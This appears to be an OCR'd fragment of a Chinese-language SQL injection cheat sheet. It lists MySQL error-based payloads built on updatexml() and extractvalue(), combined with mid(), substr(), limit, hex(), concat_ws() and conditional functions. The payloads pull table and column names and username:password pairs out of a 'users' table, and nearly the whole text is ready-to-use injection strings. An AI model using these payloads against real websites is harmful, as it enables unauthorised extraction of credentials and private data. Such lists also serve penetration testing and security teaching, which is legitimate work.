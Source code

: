 2. **使用 mid() 函数分段获取**
```sql
# 获取前32个字符
and updatexml(1,concat(0x7e,mid((select group_concat(column_name) from information_schema.columns where table_name='users'),1,32),0x7e),1)

# 获取接下来的32个字符
and updatexml(1,concat(0x7e,mid((select group_concat(column_name) from information_schema.columns where table_name='users'),33,32),0x7e),1)
```

3. **使用 limit 分页获取**
```sql
# 获取第一行数据
and extractvalue(1,concat(0x7e,(select concat(username,':',password) from users limit 0,1),0x7e))

# 获取第二行数据
and extractvalue(1,concat(0x7e,(select concat(username,':',password) from users limit 1,1),0x7e))
```

4. **使用 concat_ws() 函数处理长数据**
```sql
# 使用分隔符连接数据，便于分段获取
and updatexml(1,concat(0x7e,(select concat_ws('|',id,username,password) from users limit 0,1),0x7e),1)
```

5. **使用 hex() 函数处理二进制数据**
```sql
# 将二进制数据转换为十六进制，避免特殊字符问题
and extractvalue(1,concat(0x7e,hex((select password from users limit 0,1)),0x7e))
```

6. **使用 group_concat() 配合 substr()**
```sql
# 获取所有表名，每32个字符一段
and updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,32),0x7e),1)
```

7. **使用 case when 条件判断**
```sql
# 通过条件判断逐个字符获取
and updatexml(1,concat(0x7e,(select case when substr(password,1,1)='a' then 'a' else 'b' end from users limit 0,1),0x7e),1)
```

8. **使用 if() 函数配合 substr()**
```sql
# 判断特定位置的字符
and extractvalue(1,concat(0x7e,(select if(substr(password,1,1)='a','yes','no') from users limit 0,1),0x7e))
```

使用 substr() 函数分段获取

> 使用 mid() 函数分段获取
>
> 使用 limit 分页获取
>
> 使用 concat_ws() 函数处理长数据
>
> 使用 hex() 函数处理二进制数据
>
> 使用 group_concat() 配合 substr()
>
> 使用 case when 条件判断
>
> 使用 if() 函数配合 substr()
